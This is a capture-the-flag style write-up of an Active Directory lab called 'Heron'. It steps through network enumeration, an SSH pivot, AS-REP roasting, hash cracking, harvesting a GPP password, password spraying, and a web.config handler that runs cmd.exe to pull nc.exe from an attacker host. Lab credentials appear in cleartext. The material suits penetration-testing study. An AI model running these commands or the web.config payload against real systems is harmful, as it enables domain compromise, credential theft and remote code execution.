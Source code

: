 
![](Heron_Cover.png)



## INFO

This is an assumed breach scenario. Heron Corp created a low-privileged local user account on a jump server for you.

```
pentest:Heron123!
```

Only the jump server is reachable from the external network.

```
└─# ssh pentest@10.10.174.182
```


Upload the tool [fscan](https://github.com/shadow1ng/fscan) in the jmp box, and map the internal network. 

```
pentest@frajmp:~$ ./fscan -h 10.10.174.1/24

(icmp) Target 10.10.174.181   is alive
(icmp) Target 10.10.174.182   is alive
[*] Icmp alive hosts len is: 3

10.10.174.181:445 open
10.10.174.181:139 open
10.10.174.181:135 open
10.10.174.181:80 open
10.10.174.181:88 open
10.10.174.182:22 open

[*] NetBios    [+] DC:mucdc.heron.vl    Windows Server 2022 Standard 20348
[*] WebTitle    http://10.10.174.181    title:Heron Corp
```

Cool ! There's a DC which is accessible only internally. Now we need reach the DC from our attacker box. 


Lets start a proxy tunnel , to  enumerate and breach the internal network .

```
└─# sshuttle -r pentest:'Heron123!'@10.10.174.182 10.10.174.1/24 -x 10.10.174.182
```

![](Heron_Sshuttle.png)


## BREACHING THE DOMAIN

Now , we can reach the DC from our attacker box. 

![](Heron_Corp.png)


Found list of usernames , for further enumerations.

![](Heron-Reach_Out.png)


Lets Roast the users.

```
└─# impacket-GetNPUsers -no-pass -usersfile user_ heron.vl/ -dc-ip 10.10.169.133
```

We got hash of samuel.davies, the account has `UF_DONT_REQUIRE_PREAUTH` set.


Crack the hash.
```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt samuel.davies_hash
```

![](Heron_Cracked.png)


Now, We have valid domain user credentials , and alot of new possibilities to breach the domain.

Run Bloodhound to see what level of access this user has, and other attack vectors.

```
└─# bloodhound-python --username samuel.davies --password 'l6fkiy9oN' --nameserver 10.10.169.133 --domain heron.vl --domain-controller MUCDC.heron.vl --dns-tcp --collectionmethod all --zip
```




```
└─# crackmapexec smb 10.10.169.133 -u samuel.davies -p l6fkiy9oN -M gpp_password
```


![](Heron_Gpp.png)

Cool !  Trying the password spray, and we got a match !

```
└─# crackmapexec smb 10.10.169.133 -u svc-web-accounting-d  -p 'H3r0n2024#!' --shares
```

This account has got more rights / permissions . Now , we need a shell in the box.

![](Heron_Account.png)


Modify the web.config file :

```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments='/c echo IWR http://10.10.173.54:8000/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile' stdoutLogEnabled="false" stdoutLogFile=".\log>
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

